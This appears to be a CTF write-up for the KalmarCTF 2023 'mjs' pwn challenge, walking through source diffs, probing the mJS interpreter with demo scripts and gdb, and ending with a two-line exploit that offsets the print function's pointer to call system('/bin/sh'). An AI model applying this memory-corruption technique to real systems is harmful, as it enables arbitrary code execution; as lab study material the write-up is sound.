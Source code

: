 # mjs
###### tags: `KalmarCTF` `2023` `pwn` `web` `mjs` `javascript` `runtime` `browser` `couldn't`
## Examine
### what patched
As you can see, this challenge source code is changed from origin code.
i think that some of function changed to easy.

![](https://i.imgur.com/dJWwTj3.png)

Let's extract the changes made.

first, let's see from foo_bar/src/mjs_builtin.c
```c=
diff --git a/src/mjs_builtin.c b/src/mjs_builtin.c                                                                                                     
index 6f51e08..36c2b43 100644                                                                                                                          
--- a/src/mjs_builtin.c                                                                                                                                
+++ b/src/mjs_builtin.c   

-  mjs_set(mjs, obj, "ffi", ~0,                                                                                                                        
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call));                                                                                   
-  mjs_set(mjs, obj, "ffi_cb_free", ~0,                                                                                                                
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free));                                                                                
-  mjs_set(mjs, obj, "mkstr", ~0,                                                                                                                      
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr));                                                                                      
+  /* mjs_set(mjs, obj, "ffi", ~0, */                                                                                                                  
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call)); */                                                                             
+  /* mjs_set(mjs, obj, "ffi_cb_free", ~0, */                                                                                                          
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free)); */                                                                          
+  /* mjs_set(mjs, obj, "mkstr", ~0, */                                                                                                                
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr)); */
    
-  mjs_set(mjs, obj, "s2o", ~0,                                                                                                                        
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o));                                                                                        
+  /* mjs_set(mjs, obj, "s2o", ~0, */                                                                                                                  
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o)); */   
```

i realized somthing.
- `ffi`,`ffi_cb_free`,`mkstr`,`s20` function were commented

Second, let's see `src/mjs_exec.c`
```c=
diff --git a/src/mjs_exec.c b/src/mjs_exec.c                                                                                                           
index bd48fea..24c2c7c 100644                                                                                                                          
--- a/src/mjs_exec.c                                                                                                                                   
+++ b/src/mjs_exec.c                                                                                                                                   
@@ -835,7 +835,7 @@ MJS_PRIVATE mjs_err_t mjs_execute(struct mjs *mjs, size_t off, mjs_val_t *res) {                                                   
-                                                                                                                                                      
           *func = MJS_UNDEFINED;  // Return value                                                                                                     
           // LOG(LL_VERBOSE_DEBUG, ("CALLING  %d", i + 1));                                                                                           
-        } else if (mjs_is_string(*func) || mjs_is_ffi_sig(*func)) {                                                                                   
+        } else if (mjs_is_ffi_sig(*func)) {                                                                                                           
           /* Call ffi-ed function */                                            
```
i realized something
- Looser conditions
## what about mjs
i don't know mjs.
let's play a little bit.


```javascript=
//demo.js
function hello(){
  pirnt("hello");
}
let name = "rivi";
print("hello! " + name);

let name_hex = name.at(0);
print('another name for you is:');
print(name_hex);

let profile = {favorite: "javascript"};
let o = Object.create(profile);

let profile_str = JSON.stringify(o);
print(profile_str);
```
```bash=
$ ./mjs -f demo.js
hello! rivi 
another name for you is: 
114 
{"__p":{"favorite":"javascript"}} 
undefined
```

what's about `undefined`? The phenomenon is puzzling.


```javascript=
// demo2.js
let name = "rivi";
print("hello! " + name);
5
```
```
$ ./mjs -f demo2.js
hello! rivi 
5
```
i'll try to fuzzy

```javascript=
//demo3.js
print(print);
```
```
$ ./mjs -f demo3.js
<foreign_ptr@55b9637f1660> 
undefined
```

i received foreign_ptr.
the address starts with the 66 is very suspicious.

gdb is loaded mjs
```
gef➤  p mjs_print
$1 = {void (struct mjs *)} 0x555555559660 <mjs_print>
gef➤  c
Continuing.
<foreign_ptr@555555559660> 
undefined
[Inferior 1 (process 182522) exited normally]
```

mjs output same address about mjs_print as gdb
that's pretty crazy
```javascript=
//demo4.js
print(print[0]);
print(print[1]);
print(print[2]);
print(print[3]);
```
```
gef➤  x/4ub mjs_print
0x555555559660 <mjs_print>:	85	72	137	229
gef➤  c
Continuing.
85 
72 
137 
229 
undefined
```
this result is stupid!!
i can read and write anywhere.


we can't normally call on code.
but ffi_call exist on mjs yet.
![](https://i.imgur.com/WKMGHjZ.png)

## Solve 1
```
// demo5.js
let p = print + 0x6ab0;
p("int system(char *)")("/bin/sh");
```
## Solve2
this solve use traditional exploitation method instead of `ffi`.
that method is GOT overwrite.

## Source Code

https://github.com/kalmarunionenctf/kalmarctf-2023/tree/main/pwn/mjs

## Ref
- 